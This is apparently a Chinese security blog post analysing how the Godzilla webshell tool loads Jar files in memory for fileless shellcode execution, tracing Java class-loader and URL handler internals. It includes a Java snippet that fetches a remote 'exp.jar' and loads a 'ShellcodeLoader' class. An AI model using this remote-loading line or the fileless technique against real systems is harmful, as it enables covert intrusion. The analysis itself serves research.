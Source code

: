 # 分析哥斯拉内存加载Jar技术




<meta name="referrer" content="no-referrer" />

## 背景
哥斯拉在第一版的时候就提供了一个黑魔法：内存加载Jar功能。从当时的介绍来看，这个功能本来是为上传数据库驱动用的，后面配合JNA可以实现无文件加载ShellCode，一切都在内存中执行，大大扩展了利用面。

要知道JDK默认没有提供直接内存加载Jar的接口，但是我们可以想到，既然JDK是支持通过http/file协议加载Jar包，也就是这里面一定存在着：读取Jar包内容->加载到内存->defineClass的链路，如果我们能够把第一步跳过去，直接把Jar的byte复制到内存中，就可以实现无文件加载。同样，Java原生是不支持内存加载so或者dll的，但是我们可以通过内存加载Jar的方式，在Jar中包含我们要利用的so/dll即可实现曲线救国。

As-Exploits很早就把这个功能移植了过来，不过目前似乎并没有找到有写分析这个功能的文章，本文抛砖引玉，简单分析分析。

## findResource流程分析
在了解无文件加载Jar原理之前，首先了解一下JVM是如何查找Class的
Class.forName后下一个断点，进入java.net.URLClassLoader#findClass，这里有一个很重要的属性ucp，包含了所有的URL实例
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1694917795837-c229294b-c7e0-4017-a012-3c9a99966748.png#averageHue=%23f2f0ef&clientId=u0951b4c9-cea3-4&from=paste&height=568&id=u46d6481a&originHeight=1136&originWidth=2102&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1355616&status=done&style=none&taskId=u97f95d6b-7b84-4530-a6dc-95f773b3d66&title=&width=1051)
然后会通过ClassLoader中的ucp属性尝试获取目标类的Resource，这里调用的是sun.misc.URLClassPath#getResource(java.lang.String, boolean)，主要逻辑为遍历ucp下所有的URL对象进行资源的查找：sun.misc.URLClassPath.JarLoader#getResource(java.lang.String, boolean)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1694918194842-36d84d25-18d0-4df1-a369-1266eb35b376.png#averageHue=%23fbfbfb&clientId=u0951b4c9-cea3-4&from=paste&height=412&id=ubfe1106e&originHeight=824&originWidth=1434&originalType=binary&ratio=2&rotation=0&showTitle=false&size=533439&status=done&style=none&taskId=u29d62082-3921-443b-b7a0-00087943902&title=&width=717)

找到目标Class对应所在Resource对象后，则会走入java.net.URLClassLoader#defineClass方法，进行类的加载
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1694919723701-64cc134e-fa54-4319-bf51-6bff256ed215.png#averageHue=%23f9f7f6&clientId=u0951b4c9-cea3-4&from=paste&height=609&id=u714accb0&originHeight=1218&originWidth=1914&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1303337&status=done&style=none&taskId=ua779053c-5e9b-4965-a303-4fdfb91d805&title=&width=957)
## URLClassPath与URL
上面的过程涉及到两个重要的类，直接贴一下ChatGPT的描述：
sun.misc.URLClassPath类和java.net.URL类在Java中都与URL（统一资源定位符）相关联，但它们的作用和职责不同。

java.net.URL类是Java标准库中的一个类，用于表示一个统一资源定位符。它提供了许多方法来解析、构建和处理URL。URL对象可以用于打开连接、获取流等操作，以访问网络资源。

sun.misc.URLClassPath类是Java虚拟机（JVM）的一部分，并不属于公共API，它被用于支持类加载器加载和查找类文件。在类的查找过程中，URLClassPath负责管理类加载路径、查找类文件并加载类。

具体来说，当Java程序运行时，JVM的类加载器负责根据类的名称来查找并加载相应的类文件。URLClassPath类是JVM中的一个关键组件，它通过封装一组URL对象（其中包含了可能包含类文件的目录或JAR文件的URL）来提供类的查找功能。URLClassPath通过调用java.net.URL类提供的方法来解析和构建URL对象，并利用这些URL对象来定位和加载类文件。

因此，可以说URLClassPath类是在类加载过程中起着重要的作用，它与java.net.URL类密切合作，使用URL来定位并加载类文件。
## HTTP远程加载Jar包原理
知道了findResource的原理，后面就好理解为什么下面的的代码可以远程加载一个Jar包了：实际上就是把我们自定义的远程URL加入到了ucp属性中，后续通过该URL中提供的协议进行类的查找
```
URLClassLoader loader = new URLClassLoader(new URL[]{new URL("http://yzddmr6.com/exp.jar")});
loader.loadClass("asexploits.ShellcodeLoader");
```

为了摸清这一过程，我们用上面的代码对http协议加载Jar包过程进行调试：
在java.net.URL#URL(java.net.URL, java.lang.String, java.net.URLStreamHandler)断点，发现会根据获取到的协议方式拿到不同的handler，例如http://yzddmr6.com/exp.jar，就会获取http的handler，file:///tmp/exp.jar就会获取file类型的hander
java.net.URL#getURLStreamHandler
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1695716083244-7b1991b1-a19d-4e6e-9d9e-5c8d723cc48b.png#averageHue=%23f8f8f7&clientId=ud0545662-3e42-4&from=paste&height=281&id=ub031aefa&originHeight=562&originWidth=1376&originalType=binary&ratio=2&rotation=0&showTitle=false&size=406999&status=done&style=none&taskId=u4e6dccca-8e76-4a94-9ae7-8ca097daba5&title=&width=688)
之前查找到的hander会被保存到handlers整个缓存中，如果没有就会进行一个包名的拼接: "sun.net.www.protocol"+protocol+".Handler"，找到对应的处理类
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1695716144135-94fe472d-bd6b-4300-9f58-3d869e9d8e36.png#averageHue=%23faf9f9&clientId=ud0545662-3e42-4&from=paste&height=717&id=u1724cb75&originHeight=1434&originWidth=2176&originalType=binary&ratio=2&rotation=0&showTitle=false&size=1393027&status=done&style=none&taskId=ua85e48ba-578a-4792-a6eb-69a1777de52&title=&width=1088)
其实这里的协议是可以构造的，例如我们可以设置一种abc://127.0.0.1/exp.jar，就会识别为abc协议
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1695892142236-144ea13d-e26c-42a1-941b-3978ece796fe.png#averageHue=%23fcfbfb&clientId=ud0545662-3e42-4&from=paste&height=341&id=XsuBH&originHeight=682&originWidth=1582&originalType=binary&ratio=2&rotation=0&showTitle=false&size=491630&status=done&style=none&taskId=u4bfa2aa6-b904-48fc-9dd5-d65b50c375e&title=&width=791)
然后在java.net.URL#getURLStreamHandler判断如果handlers里没有缓存，就会尝试去寻找sun.net.www.protocol.abc.Handler这个类，这里handlers属性是一个重点。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/1599908/1695892285685-e7435d10-e8af-49ea-955d-1acd93935378.png#averageHue=%23f8f8f6&clientId=ud0545662-3e42-4&from=paste&height=340&id=ZTKDC&originHeight=680&originWidth=1368&originalType=binary&ratio=2&rotation=0&showTitle=false&size=497182&status=done&style=none&taskId=u6d16c17b-0f72-4cc2-9828-fc2680acd1d&title=&width=684)